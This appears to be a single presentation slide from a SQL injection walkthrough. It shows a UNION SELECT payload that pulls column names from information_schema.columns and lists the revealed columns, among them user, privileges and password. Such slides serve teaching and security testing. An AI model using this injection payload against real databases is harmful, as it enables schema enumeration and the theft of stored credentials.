

# ok there's a user's table, lets get some column names
We can use this same technique to get all the column names across the DB.

... UNION SELECT 1, column_name, 3, 4 from information_schema.columns

Reveals the following interesting column names:
id, privileges, user, host, db, command, login password